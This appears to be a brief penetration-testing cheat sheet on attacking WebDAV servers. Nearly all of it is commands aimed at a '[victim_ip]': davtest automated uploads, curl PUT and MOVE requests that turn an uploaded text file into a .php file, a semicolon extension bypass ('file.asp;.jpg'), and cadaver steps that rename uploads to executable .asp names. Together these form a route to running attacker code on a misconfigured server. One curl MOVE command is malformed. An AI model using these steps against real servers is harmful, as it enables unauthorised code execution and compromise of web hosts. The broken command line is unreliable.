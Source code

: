 ### webdav scanner
- davtest-url [victim_url]
- davtest -move -senddb auto -url http://[victim_ip]:[victim_port]

### test webdav by curl
- echo xyz > test.txt
- curl -X PUT http://[victim_ip]/test.txt -d @test.txt
- curl https://[victim_ip]/test.txt

###### change extension 
- curl -X MOVE -H 'Destination http://[victim_ip/test.php] http://[victim_ip]/test.txt

##### Semicolen file extension bypassing
- upload file as file.asp;.jpg

##### cadaver tool
- cadaver http://[victim_ip]/path/
  - dav:/path/> put file.txt
  - dav:/path/> move file.txt file.asp;.txt
  
### References 
- https://docs.oracle.com/cd/E21764_01/portal.1111/e10235/webdav007.htm#POUSR1607
